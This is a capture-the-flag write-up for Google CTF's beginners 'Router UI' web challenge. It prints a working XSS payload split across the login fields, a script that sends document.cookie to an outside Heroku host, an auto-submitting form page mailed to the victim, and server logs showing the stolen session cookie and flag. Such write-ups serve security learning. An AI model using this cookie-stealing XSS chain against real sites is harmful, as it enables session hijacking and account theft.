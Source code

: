 ### ROUTER UI
[Challenge Link](https://capturetheflag.withgoogle.com/#beginners/web-router-ui)

#### Exploit XSS
- When you login with a random user name and a random password, you will encounter an error(403) page `Wrong credentials: random//random`
- `//`??!! where did I see this???[!](http://lcamtuf.coredump.cx/tangled/)
- So... Let's go with 
	- Username: `<script src=https:`
	- Password: `URL/script.js></script>` 
	- URL?? I don't have public web server!!!
- `script.js`

		$ cat script.js
		window.location.href='https://URL/key/'+document.cookie; 


#### Ready Attacking Web Server
- https://devcenter.heroku.com/articles/getting-started-with-python
- Yeah!!!~~~
- Now
	- Username: `<script src=https:`
	- Password: `enigmatic-willow-73607.herokuapp.com/static/script.js></script>` 	

#### Send e-mal and steal cookie
- We have to send an e-mail with a link to the web page which
- will execute the exploit we found. Say....


		$ cat cats.html
		<!DOCTYPE HTML>
		<html>
		<head><title>CATS</title></head>
		<body>
		<img src="https://www.abc.net.au/news/image/8205452-3x2-340x227.jpg">
		<form name="cat" id="cat" method="POST" action="https://router-ui.web.ctfcompetition.com/login">
		<input name="username" value="&lt;script src=https:">
		<input name="password" value="enigmatic-willow-73607.herokuapp.com/static/script.js&gt;&lt/script&gt;">
		</form>
		<script>document.forms["cat"].submit();</script>
		</body>
		</html>

#### Boom!!
- wintermuted@googlegroups.com clicked the link!!!

		$ heroku logs --tail
		...
		2019-02-07T04:20:07.077960+00:00 heroku[router]: at=info method=GET path="/key/flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja" host=enigmatic-meadow-36807.herokuapp.com request_id=c9bad403-e00f-4ca6-b61b-4f21b4ce87ee fwd="35.240.117.48" dyno=web.1 connect=0ms service=5ms status=404 bytes=258 protocol=https
		2019-02-07T04:20:07.078214+00:00 app[web.1]: 10.7.217.98 - - [07/Feb/2019:04:20:07 +0000] "GET /key/flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja HTTP/1.1" 404 77 "https://router-ui.web.ctfcompetition.com/login" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/70.0.3538.77 Safari/537.36"
		...

- when you access `https://router-ui.web.ctfcompetition.com/` with the session cookie we got above

		<h2 id="iot">Google-Haus Credentials</h2>
		<form>
			<input type="password" value="CTF{Kao4pheitot7Ahmu}"/>
			<button>Submit</button>
		</form>
		<h2 id="iot">Media PC Credentials</h2>
		<form>
			<input type="password" value="CTF{Kao4pheitot7Ahmu}"/>
			<button>Submit</button>
		</form>
